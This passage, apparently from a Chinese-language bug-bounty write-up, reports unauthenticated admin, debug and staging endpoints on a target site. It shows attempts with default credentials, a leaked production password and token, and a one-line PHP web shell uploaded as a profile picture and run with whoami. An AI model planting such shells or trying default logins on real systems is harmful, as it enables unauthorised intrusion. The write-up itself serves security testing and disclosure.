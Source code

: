 令人意外的是，每个端点都返回了200 OK状态码。没有登录页面，没有重定向，只有直接暴露的管理功能。  
### 端点一：/admin-portal-testing/  
- 显示了一个没有WAF或验证码保护的登录页面  
  
- 尝试了默认凭据如admin:admin、test:test123，但未成功  
  
- 检查响应头信息，发现了如下内容：  
  
```
X-Admin-Panel: true
X-Debug-Auth: bypass-mode

```  
  
这些自定义响应头暗示着可能存在的认证绕过方式。  
### 端点二：/internal-debug-xyz/  
- 加载了一个完整的调试界面，暴露了：  
  
- 内部API端点  
  
- 服务器状态  
  
- 实时日志  
  
最令人震惊的是发现了以下信息：  
```
{
  "environment": "prod",
  "db_password": "P@ssw0rd123",
  "token": "eyJhbGciOi..."
}

```  
  
在生产环境中直接暴露敏感凭据，这是一个严重的安全疏忽。  
### 端点三：/staging-panel/  
- 发现了应用程序的完整测试版本  
  
- 没有任何身份验证或访问限制  
  
- 存在文件上传功能，为远程代码执行提供了可能  
  
我上传了一个简单的PHP shell作为个人资料图片：  
```
<?php system($_GET['cmd']); ?>

```  
  
访问上传后的文件：  
```
https://target.com/staging-panel/uploads/poc.php?cmd=whoami

```  
  
返回结果：  
```
www-data

```  
  
